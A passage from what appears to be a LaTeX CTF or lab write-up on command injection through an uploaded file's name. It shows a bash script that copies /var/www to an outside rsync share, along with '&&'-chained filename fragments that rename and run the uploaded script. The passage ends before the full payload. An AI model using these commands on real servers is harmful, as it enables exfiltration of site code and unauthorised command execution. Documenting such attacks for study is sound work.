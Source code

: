 Due to this we wanted to be the uploaded file be interpreted by bash on the host, so we could just write a simple bash script with the following content:

\begin{lstlisting}[caption=Bash Script to Get PHP Code, label=listing:bash_script]
rsync /var/www mybox::myshare
\end{lstlisting}

The problem is, we need to somehow integrate the bash execution in our file name like this:

\begin{lstlisting}[caption=Executing code via bash, label=listing:execute_bash_script]
... && bash script.sh
\end{lstlisting}

That means that we need somehow get to the directory the uploaded file is located, we assumed \textit{/tmp/\$filename}.

So we need to change the directory to \textit{/tmp/}. We archived that to create a temporary directory, change to it, and then change to the upper directory like illustrated in Listing \ref{listing:change_to_tmp}. We had to do that because we cannot use slashes in the file name.

\begin{lstlisting}[caption=Change to \textit{/tmp/}, label=listing:change_to_tmp]
&& dir=`mktemp` && cd dir && cd .. 
\end{lstlisting}

Now we are in the directory were our shell script was uploaded. Now we have to execute it. Unfortunately this is pretty hard, because we cannot simply reference the script via the file name, because the file name is also the command we want to inject and we would then get into some recursive loop specifying the hole file name. The solution is to rename the file to some easier name like\textit{script.sh} and then execute it, illustrated in Listing \ref{listing:rename_file}.

\begin{lstlisting}[caption=Rename the file, label=listing:rename_file]
 ... && mv *.sh script.sh && bash script.sh
\end{lstlisting}
 
 We are moving the file \textit{*.sh} to script.sh (Our uploaded file ends with \textit{.sh}).
 
 Listing \ref{listing:complete_file_name} shows the complete file name\footnote{The \textit{rm -rf script.sh} is used to delete any script which was uploaded by a former attack, otherwise renaming the file would fail because \textit{script.sh} would already exist.} which we have used to execute our code.
 
